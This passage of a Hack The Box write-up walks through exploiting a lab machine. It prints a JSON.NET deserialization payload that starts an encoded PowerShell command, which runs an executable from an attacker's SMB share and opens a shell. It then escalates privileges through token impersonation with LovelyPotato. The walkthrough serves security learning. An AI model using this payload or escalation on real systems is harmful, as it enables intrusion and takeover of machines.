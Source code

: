     '$type':'System.Windows.Data.ObjectDataProvider, PresentationFramework, Version=4.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35',
    'MethodName':'Start',
    'MethodParameters':{
        '$type':'System.Collections.ArrayList, mscorlib, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089',
        '$values':['cmd','/c powershell -enc XABcADEAMAAuADEAMAAuADEANQAuADEANQA0AFwAcwBoAGEAcgBlAFwAcABhAHkAbABvAGEAZAAuAGUAeABlAAoA']
    },
    'ObjectInstance':{'$type':'System.Diagnostics.Process, System, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089'}
}
```

Once we send the request we see our SMB server light up and our listener activate! We have a shell!

{{< figure src="__GHOST_URL__/content/images/2019/11/image-42.png" >}}

Once we are on the system, we'll path over to ```C:\Users\userpool\Desktop``` and get our ```user.txt```

Now we need to focus on getting root. In our shell we'll run ```systeminfo``` to see what we are dealing with exactly.

{{< figure src="__GHOST_URL__/content/images/2019/11/image-43.png" >}}

We also see that we have ```SeImpersonatePrivilege``` and ```SeAssignPrimaryTokenPrivilege``` set to enabled. We can leverage the idea of [RottenPotato](https://github.com/breenmachine/RottenPotatoNG). There are a few options for this method out there, in this case I'll be using [LovelyPotato](https://github.com/TsukiCTF/Lovely-Potato).

{{< figure src="__GHOST_URL__/content/images/2019/11/image-44.png" >}}

We simply follow the commands given to us on the repo and we get a root shell back after ~7 minutes! There are more ways to exploit this based on this particular vulnerability. Check out [ohpe.it](https://ohpe.it/juicy-potato/) for more about it.

Hopefully something was learned. If you found this write-up helpful, consider sending some respect my way: [Lovecore's HTB Profile](https://www.hackthebox.eu/home/users/profile/95635).

